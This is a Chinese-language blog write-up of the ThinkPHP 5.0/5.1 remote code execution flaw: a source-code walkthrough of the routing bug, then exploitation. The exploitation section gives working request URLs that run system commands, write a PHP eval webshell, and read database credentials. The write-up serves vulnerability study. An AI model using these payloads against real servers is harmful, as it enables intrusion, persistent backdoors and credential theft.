```yaml
---
layout: post
title: "ThinkPHP远程命令执行漏洞原理及复现"
categories: thinkphp
tags: 漏洞 复现 ThinkPHP
author: Snow狼
---
```




* content
{:toc}

![](https://i.loli.net/2019/10/03/X8yTZWnr3sbANuH.png)






## 漏洞介绍

2018年12月11日，exploit-db更新了一个thinkphp框架远程代码执行漏洞

exploit地址：[https://www.exploit-db.com/exploits/45978](https://www.exploit-db.com/exploits/45978)

由于框架对控制器名没有进行足够的检测导致在没有开启强制路由的情况下getshell

## 漏洞影响范围

Thinkphp 5.1.0 - 5.1.31

Thinkphp 5.0.5 - 5.0.23

## 安装

下载地址[http://www.thinkphp.cn/donate/download/id/1125.html](http://www.thinkphp.cn/donate/download/id/1125.html)

下载完解压在/var/www/html/目录下即可

![](https://i.loli.net/2019/10/15/aVAYtwnuK5P17dp.jpg)

## 漏洞分析

/thinkphp/library/think/App.php 行数:120

![](https://i.loli.net/2019/10/15/WxXdUIQ81vsMlNT.png)

我们可以看到通过self::routerCheck函数进行路由检测

![](https://i.loli.net/2019/10/15/oHNr3xMRJ8jmkih.png)

我们可以看到又进入$request->path()函数

/thinkphp/library/think/Request.php 行数:416行

![](https://i.loli.net/2019/10/15/nGXdNT7SZRt9bHu.png)

进入pathinfo()函数，继续追踪到384行

![](https://i.loli.net/2019/10/15/bHlmEVtCQcTG8uW.png)

Config::get('var_pathinfo')是配置文件中的设置的参数，默认值为s，从GET中获取键值，然后赋值给routeCheck中的$path

我们再回到App.php 行数:606

![](https://i.loli.net/2019/10/15/5a7ehP8d6giSuZQ.png)

这里会进行路由检测，检查$check后会进入else分支导入路由配置，接着检测路由url调度结果为$result，如果调度失败且开启了强制路由$must，则报出路由无效，接着进入Route::parseUrl函数，根据$path（自定义url）解析操作

开始跟踪parseUrl函数

/thinkphp/library/think/Route.php 行数:1208

![](https://i.loli.net/2019/10/15/I8GKJcA7ilOwLaH.png)

进入parseUrlPath函数 行数:1275

![](https://i.loli.net/2019/10/15/iTapmwMzbS9fUxJ.png)

这里我们可以看到对模块/控制器/操作的url地址分割成数组来返回（没截好图有点重了）行数:1217

![](https://i.loli.net/2019/10/15/jWBT7ugfNSkEMvm.jpg)

![](https://i.loli.net/2019/10/15/RDEsotpCcAvyagB.png)

我们可以看到，返回的结果赋值为$path,提取路由信息又封装到$route,最后返回

thinkphp/library/think/App.php 行数:120

![](https://i.loli.net/2019/10/15/d1jIw38GmokpeP6.png)

进入self::exec函数 行数:445

![](https://i.loli.net/2019/10/15/IVSiZAc2G39mlKr.png)

我们可以看到模块/控制器/操作 的函数为self::module

开始跟踪module函数 行数:494

![](https://i.loli.net/2019/10/15/FHWALrT69ZRJ2a4.jpg)

![](https://i.loli.net/2019/10/15/axROdkwcGjDpCU9.png)

我们可以看到，根据$config['app_multi_module']进入多模块部署，$bind为NULL，又进入elseif分支，判断模块是否在禁止的列表里面$config['deny_module_list']，而且mmodule存在，$available = true，就不会抛出异常

module函数最后的返回值，发现$controller没有进行过滤，那么此时应该为think\app，也就是return self::invokeMethod($call, $vars);

![](https://i.loli.net/2019/10/15/UqMIVw1j2PZyu8h.png)

进入self::invokeMethod函数 行数:329

![](https://i.loli.net/2019/10/15/SBgclv9GrxkoyDU.png)

此时穿进去的$call也就是$method,是一个数组，第一个元素是一个think\App对象，第二个元素则是调用方法名称的字符串invokefunction，然后通过反射ReflectionMethod获取这个对象下对应的方法

再通过函数$args = self::bindParams($reflect, $vars);获取传入的参数，也就是payload

最后再调用反射$reflect->invokeArgs($args);，将Payload数组传入反射对象函数invokeFunction，完成代码执行。

![](https://i.loli.net/2019/10/15/B8KZOovzsMUWGh7.png)

至此，ThinkPHP远程代码执行漏洞分析完成

* * *

## 漏洞利用

http://xxx.xxx.xxx(这里为你的域名)/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

远程代码执行命令:whoami（链接后面的whoami可以改成你要执行的命令,特殊符号请进行url转码）

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

通过phpinfo函数写出phpinfo的信息

![](https://i.loli.net/2019/10/15/VwSrldcPZ2MoHXR.png)

http://xxx.xxx.xxx/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22snowwolf%22])?^%3E%3Eshell.php

写入shell

http://xxx.xxx.xxx/public/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

也是显示phpinfo

http://xxx.xxxx.xxx/thinkphp/public//?s=.\|think\config/get&name=database.username

数据库用户名（后面的username改为password为数据库密码）

![](https://i.loli.net/2019/10/15/pNXUG1BR8q2uQ9c.jpg)

至此，漏洞原理，复现，分析完成
